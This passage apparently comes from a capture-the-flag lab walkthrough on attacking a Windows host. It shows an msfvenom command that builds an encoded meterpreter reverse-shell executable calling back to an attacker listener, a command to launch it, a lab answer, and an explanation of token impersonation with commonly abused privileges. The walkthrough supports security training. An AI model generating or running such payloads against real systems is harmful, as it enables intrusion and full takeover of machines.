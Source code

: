 Start-Process "shell-name.exe"

This should spawn a meterpreter shell for you!
  
```
  └─# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.29.43 LPORT=1234 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
  
**What is the final size of the exe payload that you generated?**
  
  73802

## Privilege Escalation
  
  Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

user SIDs(security identifier)
group SIDs
privileges
amongst other things. More detailed information can be found here.

There are two types of access tokens:

primary access tokens: those associated with a user account that are generated on log on
impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process
For an impersonation token, there are different levels:

SecurityAnonymous: current user/client cannot impersonate another user/client
SecurityIdentification: current user/client can get the identity and privileges of a client, but cannot impersonate the client
SecurityImpersonation: current user/client can impersonate the client's security context on the local system
SecurityDelegation: current user/client can impersonate the client's security context on a remote system
where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

SeImpersonatePrivilege
SeAssignPrimaryPrivilege
SeTcbPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeCreateTokenPrivilege
SeLoadDriverPrivilege
SeTakeOwnershipPrivilege
SeDebugPrivilege
There's more reading here.
